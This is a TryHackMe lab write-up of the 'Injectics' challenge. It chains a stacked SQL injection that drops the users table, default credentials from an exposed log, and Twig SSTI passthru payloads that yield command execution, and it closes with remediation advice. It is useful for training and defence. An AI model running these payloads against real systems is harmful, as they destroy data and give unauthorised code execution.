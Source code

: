 # Injectics Challenge — TryHackMe / Web Application Pentesting  
**Date:** 2025-10-29  
**Type:** TryHackMe (Challenge)  
**Scope:** Lab / Authorized only  

---

## 1) Context
This challenge simulated a realistic multi-stage attack chain combining **SQL Injection**, **automated recovery logic abuse**, and a **Server-Side Template Injection (SSTI)** in a vulnerable Twig version.  
Goal: compromise the application by chaining vulnerabilities and extracting both flags.

---

## 2) Initial hypothesis
When I started, I suspected a **classic SQL injection** due to the `/login.php` page and developer comments about database recovery.  
I expected to leverage the recent injection concepts learned (SQLi, ORM injection, SSTI).  
Key question: *Can I manipulate the recovery service or leverage SQLi beyond just credential dumping?*

---

## 3) Tools used
- **Nmap** → port discovery  
- **Gobuster / ffuf** → directory enumeration  
- **Burp Suite** → payload crafting and testing  
- **Browser** → behavioral observation  
- **PayloadsAllTheThings** → Twig exploit reference  

---

## 4) Approach (high level)
1. Recon and enumeration with Nmap & Gobuster  
2. Locate potential injection in `/login.php`  
3. Identify auto-recovery behavior in `mail.log`  
4. Trigger Injectics recovery by dropping `users` table via SQLi  
5. Log in using restored default credentials  
6. Enumerate admin panel → confirm SSTI  
7. Exploit Twig 2.14.0 vulnerability for RCE → retrieve flag  

---

## 5) Results / Evidence (sanitized)

### Recon and enumeration
- **Nmap**
```bash
  nmap -p- 10.10.49.174
```
- Ports open: 22/tcp (SSH), 80/tcp (HTTP)
### Gobuster
```bash
gobuster dir -u http://10.10.49.174 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt,log
```
- Discovered /login.php, /mail.log, /flags, /vendor/, /composer.json

### Key findings
- mail.log exposed default credentials used by the InjecticsService (auto-restoration daemon):
```bash
superadmin@injectics.thm : superSecurePasswd101
dev@injectics.thm : devPasswd123
```
- composer.json → Twig 2.14.0 (known SSTI RCE vulnerability).

### SQL Injection → Triggering auto-recovery
1. Confirmed SQLi on /login.php with ' OR 1=1--
2. Identified ; was allowed, enabling stacked queries.
3. Used payload:
```sql
    2;DROP+TABLE+users;
```
- App response:
    - “Seems like database or some important table is deleted. InjecticsService is running to restore it.”
4. Waited ~2 minutes → default credentials reappeared.
    - Logged in as superadmin → Flag #1 obtained.

### Twig SSTI exploitation
- Test payload confirmed template evaluation:
```bash
    {{ 7*7 }} → 49
```
- Used Twig sort('passthru') exploit (CVE-2022-23614):
```bash
    {{ ['ls flags','']|sort('passthru')|join }}
```
- Listed: 5d8af1dc14503c7e4bdc8e51a3469f48.txt
- Retrieved final flag:
```bash
    {{ ['cat flags/5d8af1dc14503c7e4bdc8e51a3469f48.txt','']|sort('passthru')|join }}
```
- Flag #2 captured.

## 6) Recommended remediation

- **Use parameterised queries** and **disable multiple statements execution** (prevent stacked queries).
- **Validate and sanitize user input**; reject special characters like `;`, quotes (`'`, `"`), and comment operators (`--`, `#`).
- **Restrict service privileges**: the auto-recovery daemon should **not** recreate admin users with default or hardcoded credentials.
- **Secure Twig configuration**:
  - Upgrade Twig to **> 3.x**.
  - Enable strict sandboxing for templates.
- **Hide sensitive files** (e.g., `mail.log`, `composer.json`) from web access — move them outside the webroot or restrict access via server config.
- **Review application logic** to avoid predictable recovery or debugging mechanisms in production (avoid auto-seeding privileged accounts).

---

## 7) Lessons learned

- **SQLi can be leveraged for more than data dumping** — here it was used to trigger a recovery system.
- **Auto-recovery processes can become escalation vectors** if they use hardcoded or predictable default credentials.
- **Twig SSTI (vulnerable versions)** can enable RCE via filters like `sort('passthru')`.
- **Chaining vulnerabilities** is powerful and often necessary for full compromise:  
  `SQLi → privilege escalation → SSTI → RCE`.
- **Developer artifacts leak danger**: logs, comments, and `.json` files often reveal versions, credentials, or architecture hints.

---

## 8) Links / Resources

- TryHackMe — *Web Application Pentesting* (Challenge)  
- Twig 2.14.0 CVE Reference: **CVE-2022-23614**  
- PayloadsAllTheThings — SSTI / Twig Exploits  
- Notion / detailed write-up (public): *(add link here if applicable)*
